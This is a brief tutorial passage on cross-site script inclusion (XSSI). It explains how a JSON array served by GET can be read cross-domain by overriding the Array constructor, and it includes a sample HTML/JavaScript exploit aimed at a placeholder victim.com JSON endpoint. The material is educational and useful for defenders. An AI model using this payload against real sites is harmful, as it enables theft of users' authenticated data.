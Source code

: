 # 7.1 XSSI Overview

A JSON vulnerability allows third party website to turn your JSON resource URL into JSONP request under some conditions.
Exposed when a GET request is made to retrieve JSON information as an array.
Combined to a CSRF attack. 

## How XSSI works ?

1. Cross-domain HTTP requests is possible via the `src` attribute of `<script>` tag
1. Your browser sends your credential automatically
1. Returning a JSON array is valid as the source for a JavaScript `<script>` tag
1. JavaScript allows us to redefine the Array constructor

Sample Exploit:

``` typescript
<script type="text/javascript">
    var secrets;
    Array = function() {
        secrets = this;
    };
</script>

<script src="http://victim.com/demos/secret-info.json" type="text/javascript"></script>

<script type="text/javascript">
    var yourData = '';
    var i = -1;
    while(secrets[++i]) {
        yourData += secrets[i] + ' ';
    }
    alert('I stole your data, I can exploit it / send it to another server : ' + yourData);
</script>
```


